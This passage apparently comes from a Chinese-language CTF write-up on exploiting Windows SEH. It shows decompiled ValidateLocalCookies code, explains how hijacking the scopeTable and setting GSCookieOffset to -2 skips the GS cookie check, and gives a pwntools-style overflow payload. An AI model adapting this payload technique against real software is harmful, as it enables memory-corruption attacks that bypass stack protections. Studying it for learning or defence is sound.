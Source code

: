 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-08-095341.png)

事实上，接下来其实还有个问题，在异常处理中可以看到有`ValidateLocalCookies(CookieCheckFunction, ScopeTable, &amp;EstablisherFrame + 16);`我们来看看此处的实现：

```
void __cdecl ValidateLocalCookies(void (__fastcall *cookieCheckFunction)(unsigned int), _EH4_SCOPETABLE *scopeTable, char *framePointer)
`{`
    unsigned int v3; // esi@2
    unsigned int v4; // esi@3

    if ( scopeTable-&gt;GSCookieOffset != -2 )
    `{`
        v3 = *(_DWORD *)&amp;framePointer[scopeTable-&gt;GSCookieOffset] ^ (unsigned int)&amp;framePointer[scopeTable-&gt;GSCookieXOROffset];
        __guard_check_icall_fptr(cookieCheckFunction);
        ((void (__thiscall *)(_DWORD))cookieCheckFunction)(v3);
    `}`
    v4 = *(_DWORD *)&amp;framePointer[scopeTable-&gt;EHCookieOffset] ^ (unsigned int)&amp;framePointer[scopeTable-&gt;EHCookieXOROffset];
    __guard_check_icall_fptr(cookieCheckFunction);
    ((void (__thiscall *)(_DWORD))cookieCheckFunction)(v4);
`}`
```

这里事实上就是检查要求`*(_DWORD *)&amp;framePointer[scopeTable-&gt;EHCookieOffset] ^ (unsigned int)&amp;framePointer[scopeTable-&gt;EHCookieXOROffset]`的值必须为`__security_cookie`，以及`*(_DWORD *)&amp;framePointer[scopeTable-&gt;GSCookieOffset] ^ (unsigned int)&amp;framePointer[scopeTable-&gt;GSCookieXOROffset]`的值必须为`__security_cookie`。

从上图的结构图可以看出我们事实上可以劫持`scopeTable`的地址！那么我们可以让`scopeTable-&gt;GSCookieOffset`的值为`-2`，这样程序将不会继续检查`*(_DWORD *)&amp;framePointer[scopeTable-&gt;GSCookieOffset] ^ (unsigned int)&amp;framePointer[scopeTable-&gt;GSCookieXOROffset];`。

那么我们可以构造`Payload`:

```
payload  = 'a' * 0x10
payload += p32(0x0FFFFFFFE)                               # scopeTable -&gt; GSCookieOffset
payload += p32(0)
payload += p32(0x0FFFFFFCC)                               # scopeTable -&gt; EHCookieOffset
payload += p32(0)
payload  = payload.ljust(0x70, 'b')
payload += p32(GS_Cookie)                      # framePointer[scopeTable-&gt;EHCookieOffset]
payload += 'c' * 0x20
payload += p32(stack_address + 0xD4)
payload += p32(PIE_address + 0x1460)
payload += p32((stack_address + 0x10) ^ security_cookie)   # scopeTable
payload += p32(0)
payload += 'd' * 0x10                                      # framePointer
```

